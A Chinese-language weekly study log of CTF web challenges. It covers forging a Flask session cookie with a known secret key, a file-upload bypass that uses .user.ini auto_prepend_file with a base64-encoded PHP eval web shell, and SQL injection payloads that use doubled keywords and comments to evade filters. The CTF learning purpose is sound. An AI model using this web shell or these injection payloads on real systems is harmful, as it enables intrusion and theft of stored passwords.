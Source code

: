 <a name="GL4o1"></a>
# 本周内容：
1.学习XSS<br />2.文件上传<br />3.开源情报<br />4.ISCTF
<a name="TPggj"></a>
# 成果展示：
<a name="iCc5Y"></a>
## 1.XSS-session伪造
HECTF第一题<br />第一个考点是session的伪造
```powershell
D:\User\Desktop\CTF工具\Web>python "D:\User\Desktop\CTF工具\Web\flask session.py" decode -c eyJrZXkiOiJ6eGsxaW5nIiwidXNlcm5hbWUiOiJqb2tlciJ9.ZVnpeg.YWC4Ez6niWas1UUk-bKfZ8AoY3s
b'{"key":"zxk1ing","username":"joker"}'
```
解密出来数据要改username，并且提供了key<br />使用工具：
```powershell
root@DESKTOP-V7HUR9H:/mnt/d/User/Desktop/CTF工具/Web/flask-session-cookie-manager-master# python3 flask_session_cookie_manager3.py encode -s 'zxk1ing' -t '{"key":"zxk1ing","username":"zxk1ing"}'
eyJrZXkiOiJ6eGsxaW5nIiwidXNlcm5hbWUiOiJqb2tlciJ9.ZVn1QQ.cPzqHJoqA23RcGlDdYZqmkJUmq0
```
传入服务器：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700394791951-fb6e5548-18de-4bbe-85bb-79bf46ebbc47.png#averageHue=%23aaa9a8&clientId=u07fb9345-9636-4&from=paste&height=805&id=udaca19d2&originHeight=1408&originWidth=2568&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=833829&status=done&style=none&taskId=u67b8521e-ae36-4187-8c9d-14cb1cad027&title=&width=1467.4285714285713)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700394824282-8637f084-e808-4706-98e8-38822836f618.png#averageHue=%23383330&clientId=u07fb9345-9636-4&from=paste&height=23&id=uc007f1b4&originHeight=40&originWidth=493&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=4552&status=done&style=none&taskId=u4500c461-1384-4492-a011-89d2cd477da&title=&width=281.7142857142857)<br />发现可能存在漏洞的接口<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700395367809-e21f1e1d-1dd5-4c93-a1e3-51550b1671be.png#averageHue=%23b4b4b4&clientId=u07fb9345-9636-4&from=paste&height=418&id=u29d3e56d&originHeight=1408&originWidth=2568&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=198319&status=done&style=none&taskId=ua3560b6e-efb3-415a-8787-066852e6f01&title=&width=762)<br />可以用data伪协议触发alert，那么就可以用file伪协议看看<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700395072136-4b09de5a-b165-456f-b61f-a432cbc4430c.png#averageHue=%23e9dfa1&clientId=u07fb9345-9636-4&from=paste&height=97&id=ud6089643&originHeight=169&originWidth=1195&originalType=binary&ratio=1.75&rotation=0&showTitle=false&size=37702&status=done&style=none&taskId=u04b6bf5e-b7be-4995-80a9-ca7fa58dc09&title=&width=682.8571428571429)
<a name="vWpgq"></a>
## 2.文件上传
[ez_ini](https://isctf2023.mcsog.top/challenges#ez_ini-117)<br />.htaccess是伪静态环境配置文件，用于lamp。 .user.ini是lnmp文件，里面放的是网站的文件夹路径地址。目的是防止跨目录访问和文件跨目录读取. 配置 放在根目录 .user.ini<br />两个PHP方法：

1. auto_prepend_file:在页面顶部加载文件
2. auto_append_file:在页面底部加载文件

![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700749263868-fca1ed9a-1949-489a-8fbe-485455e11598.png#averageHue=%23f3f2f2&clientId=u5744c4e2-fb6f-4&from=paste&height=173&id=u7040cd57&originHeight=173&originWidth=1144&originalType=binary&ratio=1&rotation=0&showTitle=false&size=17993&status=done&style=none&taskId=u843adece-38cd-40fe-98a2-1981a4e750c&title=&width=1144)<br />1.jpg:
```php
PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
// <?php eval($_POST[a]);
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700749389547-7c03e015-97e3-4092-8984-f32ae4871156.png#averageHue=%23f8f8f7&clientId=u5744c4e2-fb6f-4&from=paste&height=1049&id=ueebe1ef1&originHeight=1049&originWidth=1560&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85560&status=done&style=none&taskId=uf2b83ea1-124b-4924-9462-f2732d9ae89&title=&width=1560)
<a name="QLu4r"></a>
## 3.sql注入
![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700722976905-4478281e-5d7a-45f1-b1fd-1e0a593eddb1.png#averageHue=%2333414c&clientId=u37a63554-cafa-4&from=paste&height=377&id=u416dfaea&originHeight=566&originWidth=483&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=348678&status=done&style=none&taskId=u56ee7e5f-6d9d-4cf8-b6ba-ef7235cfbe9&title=&width=322)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700722990807-21b59899-d122-434c-bf5d-b07bd46ac32a.png#averageHue=%23385449&clientId=u37a63554-cafa-4&from=paste&height=494&id=uaa108e18&originHeight=741&originWidth=588&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=597693&status=done&style=none&taskId=ufd10ba07-3050-4003-9679-4bef43b4cdc&title=&width=392)sql注入<br />原语句：'and 1 union select password from users#![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700989397582-ea06148c-c9ce-42ef-bab6-c2ee7d58a8c5.png#averageHue=%233c5552&clientId=u4010c1f6-d909-4&from=paste&height=599&id=u10990e7f&originHeight=898&originWidth=756&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=938594&status=done&style=none&taskId=u62fedb12-8fcf-4729-b9a9-40168f56f07&title=&width=504)<br />发现过滤<br />payload:<br />'anandd/**/1/**/uniunionon/**/selselectect/**/passwoorrd/**/from/**/users/**/limit/**/2,3#![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1700989371483-b856efee-6ef7-4279-b610-1716d4592a35.png#averageHue=%23385859&clientId=u4010c1f6-d909-4&from=paste&height=491&id=u6c1229e6&originHeight=736&originWidth=583&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=560483&status=done&style=none&taskId=u3bbd4a97-7bdd-40e4-909e-df89a0448a8&title=&width=388.6666666666667)
